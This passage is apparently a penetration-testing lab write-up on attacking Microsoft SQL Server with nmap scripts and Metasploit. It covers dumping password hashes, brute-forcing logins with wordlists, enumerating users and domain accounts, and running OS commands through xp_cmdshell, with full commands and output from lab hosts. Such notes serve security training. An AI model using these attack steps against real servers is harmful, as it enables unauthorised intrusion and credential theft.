|       0x0106000000000009010000004c1967c27feb2ead332894c5a0779eae202847c8	9	2019-09-24T08:51:58	2019-09-24T08:51:58	2019-09-24T08:51:58	0	0	0	0	0##MS_AgentSigningCertificate##	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	##MS_AgentSigningCertificate##
|       0x010500000000000515000000cf4b5eb619bca0ed968e21eff4010000	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0	EC2AMAZ-5861GL6\Administrator	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	EC2AMAZ-5861GL6\Administrator
|       0x010600000000000550000000732b9753646ef90356745cb675c3aa6cd6b4d28b	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0NT SERVICE\SQLWriter	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT SERVICE\SQLWriter
|       0x0106000000000005500000005a048ddff9c7430ab450d4e7477a2172ab4170f4	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0NT SERVICE\Winmgmt	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT SERVICE\Winmgmt
|       0x010600000000000550000000703344e71d40b7ffb8844562a9e3c7d4fd9771d8	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0NT Service\MSSQL$SQLEXPRESS	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT Service\MSSQL$SQLEXPRESS
|       0x01020000000000052000000021020000	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0	BUILTIN\Users	masterNull	us_english	0	1	1	1	0	0	0	0	0	0	0	0	0	BUILTIN\Users
|       0x010100000000000512000000	9	2021-01-20T01:47:08	2021-01-20T02:50:35	2021-01-20T01:47:08	0	0	0	0	0	NT AUTHORITY\SYSTEM	masterNull	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT AUTHORITY\SYSTEM
|       0x0106000000000005500000002c4559766def9a2f8e23ea83ae7c7f71254cb2cc	9	2021-01-20T01:47:09	2021-01-20T01:47:09	2021-01-20T01:47:09	0	0	0	0	0NT SERVICE\SQLTELEMETRY$SQLEXPRESS	master	Null	us_english	0	1	1	0	1	0	0	0	0	0	0	0	0	NT SERVICE\SQLTELEMETRY$SQLEXPRESS
|       0x4a84b80919150844b881d1c2fead7f03	9	2021-01-20T02:48:23	2021-01-20T02:48:23	2021-01-20T02:48:23	0	0	0	0	0	admin	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	admin
|       0xc923586600ca1d40a00bcea3f83cf029	9	2021-01-20T02:50:33	2021-01-20T02:50:36	2021-01-20T02:50:33	0	0	0	0	0	Mssql	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	Mssql
|       0xdab05f73c5a136409081bc4dd4bb1173	9	2021-01-20T03:01:26	2021-01-20T03:15:57	2021-01-20T03:01:26	0	0	0	0	0	Mssqla	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	Mssqla
|       0x09f200d8751d4040b72ae7bd09a43fe0	9	2021-01-20T03:31:14	2021-01-20T03:31:14	2021-01-20T03:31:14	0	0	0	0	0	auditor	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	auditor
|_      0x1f80eace64083c4598d9fc5c34060c84	9	2021-01-20T03:31:47	2021-01-20T03:31:47	2021-01-20T03:31:47	0	0	0	0	0	dbadmin	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	dbadmin

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

<br />

**dump mssql hashes**

```bash
root@attackdefense:~# nmap 10.4.26.14 -p1433 --script=ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password= 
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 20:01 IST
Nmap scan report for 10.4.26.14
Host is up (0.0082s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-dump-hashes: 
| [10.4.26.14:1433]
|     sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0
|     ##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c
|     ##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083
|     admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0
|     Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4
|     Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5
|     auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e
|_    dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b

Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds

```

<br />

**Command Excecution using mssql **

```bash
root@attackdefense:~# nmap 10.4.26.14 -p1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=,ms-sql-xp-cmdshell.cmd="type C:\flag.txt"
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 20:05 IST
Nmap scan report for 10.4.26.14
Host is up (0.0081s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-xp-cmdshell: 
|   [10.4.26.14:1433]
|     Command: type C:\flag.txt
|       output
|       ======
|_      1d1803570245aa620446518b2154f324


```

<br />

**bruteforce mssql users and passwords with metasploit**

```bash
msf6 > use auxiliary/scanner/mssql/mssql_login
msf6 auxiliary(scanner/mssql/mssql_login) > options

Module options (auxiliary/scanner/mssql/mssql_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   BLANK_PASSWORDS    true             no        Try blank passwords for all u
                                                 sers
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from
                                                 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple
                                                  stored in the current databa
                                                 se
   DB_ALL_PASS        false            no        Add all passwords in the curr
                                                 ent database to the list
   DB_ALL_USERS       false            no        Add all users in the current
                                                 database to the list
   PASSWORD                            no        A specific password to authen
                                                 ticate with
   PASS_FILE                           no        File containing passwords, on
                                                 e per line
   RHOSTS                              yes       The target host(s), range CID
                                                 R identifier, or hosts file w
                                                 ith syntax 'file:<path>'
   RPORT              1433             yes       The target port (TCP)
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credenti
                                                 al works for a host
   TDSENCRYPTION      false            yes       Use TLS/SSL for TDS data "For
                                                 ce Encryption"
   THREADS            1                yes       The number of concurrent thre
                                                 ads (max one per host)
   USERNAME           sa               no        A specific username to authen
                                                 ticate as
   USERPASS_FILE                       no        File containing users and pas
                                                 swords separated by space, on
                                                 e pair per line
   USER_AS_PASS       false            no        Try the username as the passw
                                                 ord for all users
   USER_FILE                           no        File containing usernames, on
                                                 e per line
   USE_WINDOWS_AUTHE  false            yes       Use windows authentification
   NT                                            (requires DOMAIN option set)
   VERBOSE            true             yes       Whether to print output for a
                                                 ll attempts

msf6 auxiliary(scanner/mssql/mssql_login) > set RHOSTS 10.4.24.153
RHOSTS => 10.4.24.153
msf6 auxiliary(scanner/mssql/mssql_login) > set USER_FILE /root/Desktop/wordlist/common_users.txt
USER_FILE => /root/Desktop/wordlist/common_users.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set PASS_FILE /root/Desktop/wordlists/100-common-passwords.txt
PASS_FILE => /root/Desktop/wordlists/100-common-passwords.txt
msf6 auxiliary(scanner/mssql/mssql_login) > set VERBOSE false 
VERBOSE => false
msf6 auxiliary(scanner/mssql/mssql_login) > set STOP_ON_SUCCESS true      <<<<<<<=================
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.4.24.153:1433      - 10.4.24.153:1433 - MSSQL - Starting authentication scanner.
[+] 10.4.24.153:1433      - 10.4.24.153:1433 - Login Successful: WORKSTATION\sa:		<<<<<<<<<<<==============
[*] 10.4.24.153:1433      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mssql/mssql_login) > set STOP_ON_SUCCESS false					<<<<<<<<<<<==============
STOP_ON_SUCCESS => false
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.4.24.153:1433      - 10.4.24.153:1433 - MSSQL - Starting authentication scanner.
[+] 10.4.24.153:1433      - 10.4.24.153:1433 - Login Successful: WORKSTATION\sa:					<<<<<<<<<<<==============
[+] 10.4.24.153:1433      - 10.4.24.153:1433 - Login Successful: WORKSTATION\dbadmin:anamaria		<<<<<<<<<<<==============
[+] 10.4.24.153:1433      - 10.4.24.153:1433 - Login Successful: WORKSTATION\auditor:nikita			<<<<<<<<<<<==============
[*] 10.4.24.153:1433      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

<br />

**Gather mssql info using metasploit**

```bash
msf6 auxiliary(scanner/mssql/mssql_login) > use auxiliary/admin/mssql/mssql_sql
msf6 auxiliary(admin/mssql/mssql_sql) > options

Module options (auxiliary/admin/mssql/mssql_sql):

   Name                 Current Setting   Required  Description
   ----                 ---------------   --------  -----------
   PASSWORD                               no        The password for the specified username
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433              yes       The target port (TCP)
   SQL                  select @@version  no        The SQL query to execute
   TDSENCRYPTION        false             yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false             yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_sql) > set RHOSTS 10.4.24.153
RHOSTS => 10.4.24.153
msf6 auxiliary(admin/mssql/mssql_sql) > set USERNAME dbadmin
USERNAME => dbadmin
msf6 auxiliary(admin/mssql/mssql_sql) > set PASSWORD anamaria
PASSWORD => anamaria
msf6 auxiliary(admin/mssql/mssql_sql) > run
[*] Running module against 10.4.24.153

[*] 10.4.24.153:1433 - SQL Query: select @@version
[*] 10.4.24.153:1433 - Row Count: 1 (Status: 16 Command: 193)


 NULL
 ----
 Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep 24 2019 13:48:23 
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2016 Datacenter 10.0 <X64
 > (Build 14393: ) (Hypervisor)

[*] Auxiliary module execution completed

```

<br />

**enumerate  mssql using metasploit**

```
msf6 auxiliary(admin/mssql/mssql_sql) > use auxiliary/admin/mssql/mssql_enum
msf6 auxiliary(admin/mssql/mssql_enum) > options

Module options (auxiliary/admin/mssql/mssql_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum) > set USERNAME dbadmin
USERNAME => dbadmin
msf6 auxiliary(admin/mssql/mssql_enum) > set PASSWORD anamaria
PASSWORD => anamaria
msf6 auxiliary(admin/mssql/mssql_enum) > setg RHOSTS 10.4.24.153
RHOSTS => 10.4.24.153
msf6 auxiliary(admin/mssql/mssql_enum) > run
[*] Running module against 10.4.24.153

[*] 10.4.24.153:1433 - Running MS SQL Server Enumeration...
[*] 10.4.24.153:1433 - Version:
[*]	Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
[*]		Sep 24 2019 13:48:23 
[*]		Copyright (C) 2019 Microsoft Corporation
[*]		Express Edition (64-bit) on Windows Server 2016 Datacenter 10.0 <X64> (Build 14393: ) (Hypervisor)
[*] 10.4.24.153:1433 - Configuration Parameters:
[*] 10.4.24.153:1433 - 	C2 Audit Mode is Not Enabled
[*] 10.4.24.153:1433 - 	xp_cmdshell is Enabled							<<<<<<<<<<<<===============
[*] 10.4.24.153:1433 - 	remote access is Enabled						<<<<<<<<<<<<===============
[*] 10.4.24.153:1433 - 	allow updates is Not Enabled
[*] 10.4.24.153:1433 - 	Database Mail XPs is Not Enabled
[*] 10.4.24.153:1433 - 	Ole Automation Procedures are Not Enabled
[*] 10.4.24.153:1433 - Databases on the server:
[*] 10.4.24.153:1433 - 	Database name:master
[*] 10.4.24.153:1433 - 	Database Files for master:
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\master.mdf
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\mastlog.ldf
[*] 10.4.24.153:1433 - 	Database name:tempdb
[*] 10.4.24.153:1433 - 	Database Files for tempdb:
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\tempdb.mdf
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\templog.ldf
[*] 10.4.24.153:1433 - 	Database name:model
[*] 10.4.24.153:1433 - 	Database Files for model:
[*] 10.4.24.153:1433 - 	Database name:msdb
[*] 10.4.24.153:1433 - 	Database Files for msdb:
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBData.mdf
[*] 10.4.24.153:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBLog.ldf
[*] 10.4.24.153:1433 - System Logins on this Server:				<<<<<<<<<<<<===============
[*] 10.4.24.153:1433 - 	sa
[*] 10.4.24.153:1433 - 	dbadmin
[*] 10.4.24.153:1433 - Disabled Accounts:
[*] 10.4.24.153:1433 - 	No Disabled Logins Found
[*] 10.4.24.153:1433 - No Accounts Policy is set for:
[*] 10.4.24.153:1433 - 	sa
[*] 10.4.24.153:1433 - 	dbadmin
[*] 10.4.24.153:1433 - Password Expiration is not checked for:
[*] 10.4.24.153:1433 - 	sa
[*] 10.4.24.153:1433 - 	dbadmin
[*] 10.4.24.153:1433 - System Admin Logins on this Server:
[*] 10.4.24.153:1433 - 	sa
[*] 10.4.24.153:1433 - Windows Logins on this Server:
[*] 10.4.24.153:1433 - 	No Windows logins found!
[*] 10.4.24.153:1433 - Windows Groups that can logins on this Server:
[*] 10.4.24.153:1433 - 	No Windows Groups where found with permission to login to system.
[*] 10.4.24.153:1433 - Accounts with Username and Password being the same:
[*] 10.4.24.153:1433 - 	No Account with its password being the same as its username was found.
[*] 10.4.24.153:1433 - Accounts with empty password:
[*] 10.4.24.153:1433 - 	No Accounts with empty passwords where found.
[*] 10.4.24.153:1433 - Stored Procedures with Public Execute Permission found:
[*] 10.4.24.153:1433 - 	sp_replsetsyncstatus
[*] 10.4.24.153:1433 - 	sp_replcounters
[*] 10.4.24.153:1433 - 	sp_replsendtoqueue
[*] 10.4.24.153:1433 - 	sp_resyncexecutesql
[*] 10.4.24.153:1433 - 	sp_prepexecrpc
[*] 10.4.24.153:1433 - 	sp_repltrans
[*] 10.4.24.153:1433 - 	sp_xml_preparedocument
[*] 10.4.24.153:1433 - 	xp_qv
[*] 10.4.24.153:1433 - 	xp_getnetname
[*] 10.4.24.153:1433 - 	sp_releaseschemalock
[*] 10.4.24.153:1433 - 	sp_refreshview
[*] 10.4.24.153:1433 - 	sp_replcmds
[*] 10.4.24.153:1433 - 	sp_unprepare
[*] 10.4.24.153:1433 - 	sp_resyncprepare
[*] 10.4.24.153:1433 - 	sp_createorphan
[*] 10.4.24.153:1433 - 	xp_dirtree
[*] 10.4.24.153:1433 - 	sp_replwritetovarbin
[*] 10.4.24.153:1433 - 	sp_replsetoriginator
[*] 10.4.24.153:1433 - 	sp_xml_removedocument
[*] 10.4.24.153:1433 - 	sp_repldone
[*] 10.4.24.153:1433 - 	sp_reset_connection
[*] 10.4.24.153:1433 - 	xp_fileexist
[*] 10.4.24.153:1433 - 	xp_fixeddrives
[*] 10.4.24.153:1433 - 	sp_getschemalock
[*] 10.4.24.153:1433 - 	sp_prepexec
[*] 10.4.24.153:1433 - 	xp_revokelogin
[*] 10.4.24.153:1433 - 	sp_execute_external_script
[*] 10.4.24.153:1433 - 	sp_resyncuniquetable
[*] 10.4.24.153:1433 - 	sp_replflush
[*] 10.4.24.153:1433 - 	sp_resyncexecute
[*] 10.4.24.153:1433 - 	xp_grantlogin
[*] 10.4.24.153:1433 - 	sp_droporphans
[*] 10.4.24.153:1433 - 	xp_regread
[*] 10.4.24.153:1433 - 	sp_getbindtoken
[*] 10.4.24.153:1433 - 	sp_replincrementlsn
[*] 10.4.24.153:1433 - Instances found on this server:
[*] 10.4.24.153:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.4.24.153:1433 - 	xp_regread might be disabled in this system
[*] Auxiliary module execution completed

```

<br />

**Enumerate mssql users**

```bash
msf6 > use mssql_enum_sql_logins
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > options

Module options (auxiliary/admin/mssql/mssql_enum_sql_logins):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FuzzNum              300              yes       Number of principal_ids to fuzz.
   PASSWORD                              no        The password for the specified username
   RHOSTS               10.4.24.153      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > set USERNAME dbadmin
USERNAME => dbadmin
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > set PASSWORD anamaria
PASSWORD => anamaria
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > run
[*] Running module against 10.4.24.153

[*] 10.4.24.153:1433 - Attempting to connect to the database server at 10.4.24.153:1433 as dbadmin...
[+] 10.4.24.153:1433 - Connected.
[*] 10.4.24.153:1433 - Checking if dbadmin has the sysadmin role...
[*] 10.4.24.153:1433 - dbadmin is NOT a sysadmin.
[*] 10.4.24.153:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.4.24.153:1433 - Enumerating logins...
[+] 10.4.24.153:1433 - 38 initial SQL Server logins were found.
[*] 10.4.24.153:1433 - Verifying the SQL Server logins...
[+] 10.4.24.153:1433 - 19 SQL Server logins were verified:
[*] 10.4.24.153:1433 -  - ##MS_AgentSigningCertificate##
[*] 10.4.24.153:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.4.24.153:1433 -  - ##MS_PolicySigningCertificate##
[*] 10.4.24.153:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.4.24.153:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.4.24.153:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.4.24.153:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.4.24.153:1433 -  - ##MS_SmoExtendedSigningCertificate##
[*] 10.4.24.153:1433 -  - BUILTIN\Users
[*] 10.4.24.153:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.4.24.153:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.4.24.153:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.4.24.153:1433 -  - NT SERVICE\SQLWriter
[*] 10.4.24.153:1433 -  - NT SERVICE\Winmgmt
[*] 10.4.24.153:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.4.24.153:1433 -  - admin
[*] 10.4.24.153:1433 -  - auditor
[*] 10.4.24.153:1433 -  - dbadmin
[*] 10.4.24.153:1433 -  - sa
[*] Auxiliary module execution completed

```

<br />

**execute commands to mssql server using metasploit**

```bash
msf6 exploit(windows/mssql/mssql_payload) > use auxiliary/admin/mssql/mssql_exec
msf6 auxiliary(admin/mssql/mssql_exec) > options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOSTS               10.4.24.153                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                           yes       Technique to use for command execution (Accepted: xp_cmdshell, sp_oacreate)
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_exec) > set CMD "net users"
CMD => net users
msf6 auxiliary(admin/mssql/mssql_exec) > exploit 
[*] Running module against 10.4.24.153

[*] 10.4.24.153:1433 - SQL Query: EXEC master..xp_cmdshell 'net users'


 output												<<<<<<<<===============
 ------
 User accounts for \\MSSQL-SERVER
 -------------------------------------------------------------------------------
 Administrator            alice                    bob
 DefaultAccount           Guest                    krbtgt
 sysadmin
 The command completed successfully.

[*] Auxiliary module execution completed

```

<br />

**enumerate mssql domain accounts**

```bash
msf6 > use auxiliary/admin/mssql/mssql_enum_domain_accounts
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > options

Module options (auxiliary/admin/mssql/mssql_enum_domain_accounts):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FuzzNum              10000            yes       Number of principal_ids to fuzz.
   PASSWORD                              no        The password for the specified username
   RHOSTS               10.4.24.153      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > exploit 
[*] Running module against 10.4.24.153

[*] 10.4.24.153:1433 - Attempting to connect to the database server at 10.4.24.153:1433 as sa...
[+] 10.4.24.153:1433 - Connected.
[*] 10.4.24.153:1433 - SQL Server Name: EC2AMAZ-5861GL6
[*] 10.4.24.153:1433 - Domain Name: CONTOSO
[+] 10.4.24.153:1433 - Found the domain sid: 010500000000000515000000cf4b5eb619bca0ed968e21ef
[*] 10.4.24.153:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.4.24.153:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.4.24.153:1433 -  - CONTOSO\Guest
[*] 10.4.24.153:1433 -  - CONTOSO\krbtgt
[*] 10.4.24.153:1433 -  - CONTOSO\DefaultAccount
[*] 10.4.24.153:1433 -  - CONTOSO\Domain Admins
[*] 10.4.24.153:1433 -  - CONTOSO\Domain Users
[*] 10.4.24.153:1433 -  - CONTOSO\Domain Guests
[*] 10.4.24.153:1433 -  - CONTOSO\Domain Computers
[*] 10.4.24.153:1433 -  - CONTOSO\Domain Controllers
[*] 10.4.24.153:1433 -  - CONTOSO\Cert Publishers
[*] 10.4.24.153:1433 -  - CONTOSO\Schema Admins
[*] 10.4.24.153:1433 -  - CONTOSO\Enterprise Admins
[*] 10.4.24.153:1433 -  - CONTOSO\Group Policy Creator Owners
[*] 10.4.24.153:1433 -  - CONTOSO\Read-only Domain Controllers
[*] 10.4.24.153:1433 -  - CONTOSO\Cloneable Domain Controllers
[*] 10.4.24.153:1433 -  - CONTOSO\Protected Users
[*] 10.4.24.153:1433 -  - CONTOSO\Key Admins
[*] 10.4.24.153:1433 -  - CONTOSO\Enterprise Key Admins
[*] 10.4.24.153:1433 -  - CONTOSO\RAS and IAS Servers
[*] 10.4.24.153:1433 -  - CONTOSO\Allowed RODC Password Replication Group
[*] 10.4.24.153:1433 -  - CONTOSO\Denied RODC Password Replication Group
[*] 10.4.24.153:1433 -  - CONTOSO\SQLServer2005SQLBrowserUser$EC2AMAZ-5861GL6
[*] 10.4.24.153:1433 -  - CONTOSO\MSSQL-SERVER$
[*] 10.4.24.153:1433 -  - CONTOSO\DnsAdmins
[*] 10.4.24.153:1433 -  - CONTOSO\DnsUpdateProxy
[*] 10.4.24.153:1433 -  - CONTOSO\alice
[*] 10.4.24.153:1433 -  - CONTOSO\bob
[*] 10.4.24.153:1433 -  - CONTOSO\sysadmin

[+] 10.4.24.153:1433 - 29 user accounts, groups, and computer accounts were found.
[*] 10.4.24.153:1433 - Query results have been saved to: /root/.msf4/loot/20240107210202_default_10.4.24.153_mssql.domain.acc_151723.txt
[*] Auxiliary module execution completed

```


<br />

##### References

- https://www.hackingarticles.in/mssql-for-pentesternmap/
- https://www.hackingarticles.in/mssql-for-pentester-metasploit/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

